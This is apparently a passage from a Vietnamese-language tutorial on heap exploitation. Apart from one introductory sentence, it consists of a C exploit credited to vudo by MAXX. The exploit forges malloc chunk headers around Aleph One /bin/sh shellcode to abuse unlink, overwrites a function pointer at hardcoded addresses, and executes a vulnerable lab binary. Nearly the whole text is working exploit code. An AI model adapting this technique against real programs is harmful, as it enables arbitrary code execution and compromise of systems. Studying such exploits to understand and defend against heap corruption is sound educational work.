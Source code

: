 <div style="text-align: justify; text-indent: 2em;">
Đoạn mã sau triển khai ý tưởng được giải thích ở trên bằng mã C.
</div>

```c
// code from vudo by MAXX see reference 1
#define FUNCTION_POINTER ( 0x0804951c )
#define CODE_ADDRESS ( 0x080495e8 + 2*4 )
#define VULNERABLE "./vul2"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1	

char shellcode[] =
	/* the jump instruction */
	"\xeb\x0appssssffff"
	/* the Aleph One shellcode */
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

int main( void )
{
	char * p;
	char argv1[ 680 + 1 ];
	char * argv[] = { VULNERABLE, argv1, NULL };
	p = argv1;
	/* the fd field of the first chunk */
	*( (void **)p ) = (void *)( DUMMY );
	p += 4;
	/* the bk field of the first chunk */
	*( (void **)p ) = (void *)( DUMMY );
	p += 4;
	/* the special shellcode */
	memcpy( p, shellcode, strlen(shellcode) );
	p += strlen( shellcode );
	/* the padding */
	memset( p, ’B’, (680 - 4*4) - (2*4 + strlen(shellcode)) );
	p += ( 680 - 4*4 ) - ( 2*4 + strlen(shellcode) );
	/* the prev_size field of the second chunk */
	*( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
	p += 4;
	/* the size field of the second chunk */
	*( (size_t *)p ) = (size_t)( -4 );
	p += 4;
	/* the fd field of the second chunk */
	*( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
	p += 4;
	/* the bk field of the second chunk */
	*( (void **)p ) = (void *)( CODE_ADDRESS );
	p += 4;
	/* the terminating NUL character */
	*p = ’\0’;
	/* the execution of the vulnerable program */
	execve( argv[0], argv, NULL );
	return( -1 );
}
```
